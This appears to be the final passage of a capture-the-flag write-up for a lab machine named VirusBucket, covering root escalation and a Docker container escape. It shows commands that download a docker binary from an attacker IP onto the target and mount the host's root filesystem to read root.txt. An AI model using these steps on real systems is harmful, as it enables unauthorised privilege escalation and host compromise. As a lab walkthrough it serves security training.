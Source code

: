 

Once I run that, back at a tomcat shell, I can `sudo su`:



    tomcat@VirusBucket:/dev/shm$ sudo su
    root@VirusBucket:/dev/shm#



## Beyond Root

### docker Binary

After solving, I later learned I could have just skipped the API all
together and used the `docker` binary. It's not in the container, but
there is a copy
[here](https://master.dockerproject.org/linux/x86_64/docker). I'll
download it to my box, and then use a Python webserver to upload it to
the container.



    root@2d24bf61767c:~# wget 10.10.14.15/docker
    --2020-09-03 02:01:06--  http://10.10.14.15/docker
    Connecting to 10.10.14.15:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 53959101 (51M) [application/octet-stream]
    Saving to: ‘docker’

    docker              100%[===================>]  51.46M  10.4MB/s    in 5.0s    

    2020-09-03 02:01:11 (10.3 MB/s) - ‘docker’ saved [53959101/53959101]

    root@2d24bf61767c:~# chmod +x docker



Now I can run a container the same way I have in other Docker privescs:



    root@2d24bf61767c:~# ./docker run -v /:/rootfs --rm -it sandbox sh
    / #



The arguments are:

-   `-v /:rootfs` - map the hosts `/` to `/rootfs` in the container as a
    volume
-   `--rm` - remove the container when it exits
-   `-i` - interactive
-   `-t` - allocate a pseudo-TTY
-   `sandbox` - the name of the image to start
-   `sh` - the command to run in the container

Once inside, I can find the file system just as before:



    / # cd rootfs/
    /rootfs # ls
    bin         home        lost+found  root        swap.img
    boot        lib         media       run         sys
    cdrom       lib32       mnt         sbin        tmp
    dev         lib64       opt         snap        usr
    etc         libx32      proc        srv         var
    /rootfs # cd root/
    /rootfs/root # ls
    root.txt  snap
